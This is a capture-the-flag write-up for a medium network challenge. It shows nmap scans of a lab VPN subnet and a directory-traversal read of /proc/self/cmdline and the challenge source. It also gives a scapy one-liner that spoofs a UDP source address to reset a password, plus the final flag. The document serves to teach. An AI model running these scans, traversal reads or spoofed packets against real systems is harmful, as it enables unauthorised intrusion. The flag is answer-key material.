 # Title

Into The Network

## Authors

-   @stacksparrow4

## Category

-   Misc

## Description

I came across an interesting file... it seems to be an entry point into a hidden
network. Care to take a look?

## Difficulty

-   Medium

## Points

080

## Files

-   [client1.ovpn](./_ctfd/files/client1.ovpn): ovpn file given as part of challenge

## Solution

<details>
<summary>Spoiler</summary>

### Idea

Utilise a series of miscellaneous and network based recon and exploits to
find the flag.

### Walkthrough

Note: strongly recommend using a linux VM for this challenge.

1. Connect to the network using the ovpn file.
1. Scan the network using an nmap ping scan as follows:

    ```bash
    > nmap -sn 10.8.0.0/24
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-17 12:34 AEST
    Nmap scan report for 10.8.0.1
    Host is up (0.015s latency).
    Nmap done: 256 IP addresses (1 host up) scanned in 3.46 seconds
    ```

    We can see that the host 10.8.0.1 is on the network.

1. Scan this host with nmap

    ```bash
    > nmap 10.8.0.1
    Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-17 12:49 AEST
    Nmap scan report for 10.8.0.1
    Host is up (0.014s latency).
    Not shown: 999 closed ports
    PORT     STATE SERVICE
    8000/tcp open  http-alt

    Nmap done: 1 IP address (1 host up) scanned in 2.36 seconds
    ```

1. Checking this using a web browser hints that there is a UDP port open on the
   box. So our next step is to perform a udp scan:

    ```bash
    > sudo nmap -sU -T5 10.8.0.1 | grep open
    Not shown: 929 open|filtered ports, 70 closed ports
    1234/udp open  search-agent
    ```

1. This shows us that port 1234 is open. We can connect to it using netcat `nc -u 10.8.0.1 1234`
   which shows a sort of command line. Playing around with this reveals an LFI
   vulnerability in the `fact` command. We can then run `fact ../../../proc/self/cmdline`
   to get the cmdline of the current process, revealing the script is running `chal.py`.
   We can then use `fact ../../../proc/self/cwd/chal.py` to get the source code of the challenge.
1. Reviewing the source code shows that we can reset the password if our address
   is `1.2.3.4`. However, as this is using the UDP protocol, we can use scapy to
   forge the packet's src address and set the password.

    ```python
    send(IP(dst='10.8.0.1', src='1.2.3.4')/UDP(sport=RandShort(), dport=1234)/Raw(load='setpass testpass4\n'), iface='tun0')
    ```

1. We can then use `flag testpass4` from our netcat connection to get the flag.

### Flag

`SKYLIGHT{I_3AT_PACK3TS_4_BRE4KFA5T}`

</details>
